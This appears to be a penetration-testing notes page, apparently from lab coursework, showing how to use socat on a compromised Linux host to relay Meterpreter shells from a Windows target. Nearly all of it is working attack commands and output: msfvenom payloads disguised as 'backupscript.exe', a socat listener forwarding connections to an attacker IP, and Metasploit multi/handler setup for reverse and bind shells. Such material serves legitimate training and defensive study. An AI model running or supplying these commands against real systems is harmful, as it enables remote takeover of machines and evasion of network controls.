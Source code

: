```yaml
---
description: >-
  Socat is a bidirectional relay tool that can create pipe sockets between 2
  independent network channels without needing to use SSH tunneling
---
```


# Socat Redirection with a Reverse Shell

## Reverse Shell

**Starting Socat Listener**

<pre class="language-shell-session"><code class="lang-shell-session"><strong># socat TCP4-LISTEN:&#x3C;payload port>,fork TCP4:&#x3C;attackers IP>:&#x3C;attackers port>
</strong>ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
</code></pre>

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18)

**Creating the Windows Payload**

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

> Then transfer the payload to windows machine

**Configuring & Starting the multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

> Run the command in the target host, it will connect to our pivot server and the pivot server will forward the connection to us attack host.

## Bind Shell

Previously for reverse shell we start a listener on our attack machine but for bind shell we will start listener on host2 (windows) and we will make a connection on attackers machine which gets redirected by socat running on host1 (ubuntu).

**Creating the Windows Payload**

```shell-session
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

Then moved the payload and executed on the windows machine wating for the connection to be made.

**Starting Socat Bind Shell Listener**

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

**Configuring & Starting the Bind multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

